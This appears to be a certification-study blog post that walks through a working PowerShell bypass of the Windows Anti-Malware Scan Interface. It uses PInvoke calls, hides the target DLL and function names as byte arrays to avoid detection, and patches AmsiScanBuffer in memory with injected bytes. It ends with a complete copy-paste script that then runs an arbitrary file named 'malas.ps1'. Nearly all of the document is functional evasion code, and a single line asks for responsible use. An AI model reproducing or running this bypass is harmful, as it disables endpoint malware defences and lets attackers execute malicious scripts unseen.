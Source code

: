 ```yaml
---
title: Bypass AMSI Like a King
date: 2024-06-20 05:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert]     # TAG names should always be lowercase
description: Describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell.
---
```


---
title: Bypass AMSI Like a King
date: 2024-06-20 05:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert]     # TAG names should always be lowercase
---

# Summary

This document describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell. It involves loading the `amsi.dll` into memory, finding the memory address of the `AmsiScanBuffer` function, and changing the memory protection to allow writing and executing code. Shellcode is then injected, and a PowerShell script is run. This method is mainly used for cybersecurity research and testing purposes and should be used responsibly.

### 1. Defining a C# Class with PInvoke Methods

```jsx
$Win32 = @"
using System.Runtime.InteropServices;
using System;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
```

In PowerShell, you can't directly call functions from Windows DLLs like `kernel32.dll` or `user32.dll`. These DLLs contain functions written in languages like C or C++. However, you can use a feature called PInvoke (Platform Invocation Services) to call these functions from PowerShell. PInvoke allows managed code (like C#) to call unmanaged functions.

**Explanation:**

- This part of the code defines a C# class `Win32` using a here-string (`@" ... "@`) in PowerShell.
- This class contains three methods: `GetProcAddress`, `LoadLibrary`, and `VirtualProtect`.
- These methods use the `[DllImport]` attribute, which tells the .NET runtime to look for these functions in the specified DLLs (`kernel32.dll` in this case).
- `GetProcAddress` retrieves the address of an exported function from a DLL.
- `LoadLibrary` loads a DLL into the process's address space.
- `VirtualProtect` changes the protection on a region of memory.

---

### 2. Loading `amsi.dll`

```jsx
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))

```

The script aims to interact with functions from `amsi.dll`, which is a Windows DLL containing functions related to the Anti-Malware Scan Interface (AMSI). Before you can use functions from a DLL, you need to load the DLL into memory. The `LoadLibrary` function from `kernel32.dll` is used for this purpose.

**Explanation:**

- This part initializes a byte array `$nowhere` representing the ASCII characters of the string "amsi.dll".
- It then calls the `LoadLibrary` method from the `Win32` class to load `amsi.dll` into memory.
- The result, which is a handle to the loaded DLL, is stored in the variable `$LoadLibrary`.

---

### 3. Getting the Address of `AmsiScanBuffer`

```jsx
$somewhere = [Byte[]](0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
```

The script needs to find the memory address of the `AmsiScanBuffer` function inside `amsi.dll`. This is necessary to modify or intercept the behavior of the `AmsiScanBuffer` function later in the script. The `GetProcAddress` function from `kernel32.dll` is used to retrieve the address of a function within a loaded DLL.

**Explanation:**

- This part initializes a byte array `$somewhere` representing the ASCII characters of the string "AmsiScanBuffer".
- It calls the `GetProcAddress` method from the `Win32` class to retrieve the address of the `AmsiScanBuffer` function within `amsi.dll`.
- The resulting memory address is stored in the variable `$notaddress`.

---

### 4. Changing Memory Protection

```
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
```

**Explanation:**

- This part sets up a variable `$notp` to hold the old protection value.
- It constructs the name of the `VirtualProtect` method dynamically using the variable `$replace`.
- Then, it calls the dynamically constructed method to change the memory protection of the `AmsiScanBuffer` function to allow writing and executing code.

---

### 5. Injecting Shellcode

```
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

---

### 6. Executing Your PowerShell Script

```
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```

**Explanation:**

- This part of the code unblocks the script file `malas.ps1`, if it was blocked for security reasons.
- Then, it executes the `malas.ps1` script by dot-sourcing it (`.` operator followed by the script name). This runs the script in the current PowerShell session.

---

### 7. Final Code

```jsx
$c = 't'
$Win32 = @"
using System.Runtime.InteropServices;
using System;
public class Win32 {[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

Run your powershell here
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```